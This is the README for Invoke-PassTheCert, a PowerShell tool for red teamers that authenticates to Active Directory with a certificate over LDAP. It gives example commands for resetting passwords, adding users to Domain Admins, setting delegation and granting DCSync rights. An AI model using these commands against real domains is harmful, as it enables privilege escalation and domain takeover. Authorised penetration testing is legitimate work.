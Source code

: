 # Invoke-PassTheCert

Invoke-PassTheCert is a pure PowerShell port of PassTheCert. The purpose of this repository is to expand the landscape of PowerShell tooling available to Penetration testers and red teamers.

The original work by AlmondOffsec can be found here: https://github.com/AlmondOffSec/PassTheCert along with the accompanying blog post: https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html

Sometimes, Domain Controllers do not support PKINIT. This can be because their certificates do not have the Smart Card Logon EKU. However, several protocols, including LDAP, support Schannel, thus authentication through TLS.

---

## Note
If the certificate is password protected you will need to provide the ```-CertificatePassword``` parameter.
The ```-Certificate``` parameter accepts either a path to a PFX file or a Base64 encoded certificate ```MIINA...```

---

## Basic Usage

```powershell
Invoke-PassTheCert -Server "dc01.domain.com" -Certificate "cert.pfx" -Whoami
```

---

## Command Reference

#### Whoami
Display the current identity authenticated via the certificate.
```powershell
Invoke-PassTheCert -Server "dc01.domain.com" -Certificate "cert.pfx" -Whoami
```

---

### Reset Password
Reset a target user's password to a random value.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -ResetPassword "CN=John Doe,CN=Users,DC=domain,DC=com"
```

---

## Add SPN
Adds an SPN (e.g., `cifs/fake.domain.com`) to a user object.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddSPN "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Remove SPN
Removes SPN from target.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveSPN "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Add to Group
Adds a user or computer to a specified group.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddToGroup "CN=John Doe,CN=Users,DC=domain,DC=com" -GroupDN "CN=Domain Admins,CN=Users,DC=domain,DC=com"
```

---

### Remove from Group
Removes a user or computer from a group.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveFromGroup "CN=John Doe,CN=Users,DC=domain,DC=com" -GroupDN "CN=Domain Admins,CN=Users,DC=domain,DC=com"
```

---

### Toggle Account Status
Enables or disables a user/computer account.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -ToggleAccountStatus "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Add Computer
Adds a new computer account to the domain. A random password will be generated if ```-ComputerPassword``` is omitted.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddComputer "NewPC01" -ComputerPassword "Summer2025!"
```

---

### Remove Computer
Removes a computer object from the domain.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveComputer "CN=NewPC01,CN=Computers,DC=domain,DC=com"
```

---

### Add RBCD (Resource-Based Constrained Delegation)
Grants RBCD rights to a specified user/computer by SID.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddRBCD "CN=TargetPC,CN=Computers,DC=domain,DC=com" -SID "S-1-5-21-..."
```

---

### Remove RBCD
Removes RBCD rights from a target object.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveRBCD "CN=TargetPC,CN=Computers,DC=domain,DC=com"
```

---

### Elevate
Grants a user rights to perform DCSync by modifying the domain security descriptor.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -Elevate "CN=svc_user,CN=Users,DC=domain,DC=com"
```

## Future Addtions
- Support for Start TLS
- Shadow Credential Attacks
- LDAP interactive Shell

---
